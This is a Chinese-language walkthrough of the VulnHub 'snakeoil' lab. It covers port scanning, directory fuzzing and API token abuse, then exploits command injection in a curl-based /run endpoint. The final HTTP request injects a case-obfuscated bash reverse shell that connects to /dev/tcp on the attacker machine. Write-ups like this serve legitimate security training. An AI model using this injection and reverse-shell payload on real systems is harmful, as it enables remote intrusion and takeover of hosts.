# digitalworld.local: snakeoil

> https://download.vulnhub.com/digitalworld/SNAKEOIL.7z

靶场IP：`192.168.32.204`

扫描对外端口服务

```
┌──(root💀kali)-[/tmp]
└─# nmap -p 1-65535 -sV  192.168.32.204
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-06 00:04 EDT
Nmap scan report for 192.168.32.204
Host is up (0.00090s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http    nginx 1.14.2
8080/tcp open  http    nginx 1.14.2
MAC Address: 00:0C:29:89:70:64 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.17 seconds
```

访问80端口



访问8080端口



爆破web目录

```
┌──(root💀kali)-[/tmp]
└─# ffuf -u http://192.168.32.204:8080/FUZZ -w  /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt  -ic -c  -e .php,.html  -mc all -fc 403,404 -fl 45,47,51 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.32.204:8080/FUZZ
 :: Wordlist         : FUZZ: /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Extensions       : .php .html 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response status: 403,404
 :: Filter           : Response lines: 45,47,51
________________________________________________

                        [Status: 200, Size: 2882, Words: 598, Lines: 71, Duration: 36ms]
login                   [Status: 405, Size: 64, Words: 10, Lines: 2, Duration: 57ms]
users                   [Status: 200, Size: 140, Words: 5, Lines: 2, Duration: 56ms]
registration            [Status: 200, Size: 29, Words: 3, Lines: 2, Duration: 41ms]
test                    [Status: 200, Size: 17, Words: 2, Lines: 2, Duration: 44ms]
create                  [Status: 200, Size: 2596, Words: 447, Lines: 61, Duration: 56ms]
secret                  [Status: 500, Size: 37, Words: 4, Lines: 2, Duration: 68ms]
run                     [Status: 405, Size: 178, Words: 20, Lines: 5, Duration: 48ms]
                        [Status: 200, Size: 2882, Words: 598, Lines: 71, Duration: 46ms]

```

访问`/registration`，提示方法错误



修改post方法，提示缺少`username`



添加`username`字段，提示缺少`password`



注册成功，返回`access_token`



访问`/run`，提示方法错误



提示需要URL


添加url，提示需要访问密钥。



查看文档，找到`access_token_cookie`字段



获取到`secret_key`



然后再回到run页面，加上我们刚刚获得的secret_key，成功得到信息



拿这个开头的信息去查一下发现是curl执行的统计信息，尝试命令注入，发现成功返回信息



直接反弹shell

```
POST /run HTTP/1.1
Host: 192.168.32.204:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:92.0) Gecko/20100101 Firefox/92.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: pl,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/json
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 230


{
"url":"--help >/dev/null ; echo '#!/BIN/BASH' >1.sh; echo 'BASH -i > /DEV/TCP/192.168.32.130/12345 0>&1 2>&1' >> 1.sh; tr [:upper:] [:lower:] <1.sh > 2.sh; chmod +x 2.sh; ./2.sh ;",
"secret_key":"commandexecutionissecret"
}
```



查看文件，找到密码：`NOreasonableDOUBTthisPASSWORDisGOOD`



su成功

